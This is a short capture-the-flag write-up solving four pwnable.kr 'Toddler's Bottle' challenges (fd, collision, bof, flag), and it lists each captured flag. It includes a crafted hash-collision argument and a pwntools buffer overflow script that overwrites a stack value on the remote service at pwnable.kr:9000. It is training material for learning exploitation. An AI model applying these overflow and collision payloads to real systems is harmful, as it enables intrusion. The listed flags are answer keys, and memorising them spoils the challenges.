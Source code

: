 # Toddler's Bottle

## fd
use 4660 as argument(-> fd = 4660 - 0x1234 = 0 = stdin)
and then enter 'LETMEWIN'  
**Flag**  
mommy! I think I know what a file descriptor is!!

## collision
We need to insert string the when sum up as integer will equal to 
Choose one of the input from the output of this [python script](https://gist.github.com/bom2013/63ec0bc880f6a82e775d9dce7a2358fe), for example the generated arg for 'P' letter
```bash
col@pwnable:~$ python3 /tmp/collision_arg_generator.py
....
-----
Test P
Oh yeh!
0x50505050 0x50505050 0x50505050 0x50505050 0xe09bc8ac
...
col@pwnable:~$ ./col `printf "PPPPPPPPPPPPPPPP\xac\xc8\x9b\xe0"`
```  
**Flag**  
daddy! I just managed to create a hash collision :)

## bof
Simple buffer overflow, I try to do it directedly from the shell without success, so do it with python `pwntools` lib
```python
from pwn import *

message = 'a'*52 + "\xbe\xba\xfe\xca"
nc = remote("pwnable.kr",9000)
nc.send(message)
nc.interactive()
```  
**Flag**
daddy, I just pwned a buFFer :)

## flag
Use 'strings' to search which packer -> UPX  
Use 'upx -d flag' to unpack  
Use 'string' to find the flag
**Flag**
UPX...? sounds like a delivery service :)
